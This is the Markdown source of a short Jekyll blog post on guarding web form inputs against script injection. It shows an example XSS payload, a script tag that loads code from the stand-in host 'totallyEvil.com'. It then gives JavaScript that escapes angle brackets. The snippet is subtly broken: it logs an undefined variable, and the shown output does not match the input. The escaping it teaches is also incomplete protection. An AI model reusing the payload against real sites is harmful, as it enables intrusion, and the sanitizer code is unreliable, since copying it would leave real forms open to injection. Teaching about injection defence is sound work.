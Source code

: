 ```yaml
---
layout: post
title:  "Prohibit Injectable Scripts"
date:   2015-12-22 09:59:53 -0500
categories: javascript
---
```


If you’re capturing information in a form element, it’s a good idea to minimize the chances for someone to inject a malicious script into your site. Script injection is one of the methods used to hack a website. Let’s say someone tries to enter the following into your First Name input:

`<script src="http://totallyEvil.com/demonScript.js"></script>`

An easy thing to do is to convert the “<” and “>” characters into their html entities.

{% highlight javascript %}

var badScripty = '<script src="totallyEvil.com/demonScript.js"></script>';

var safeEntry = badScripty.replace(/</g, "&lt;");
safeEntry = safeEntry.replace(/>/g, "&gt;");

// check safescript
console.log(safeScript);

//returns
&lt;script src="totallyEvilScript.js"&gt;&lt;/script&gt;

{% endhighlight %}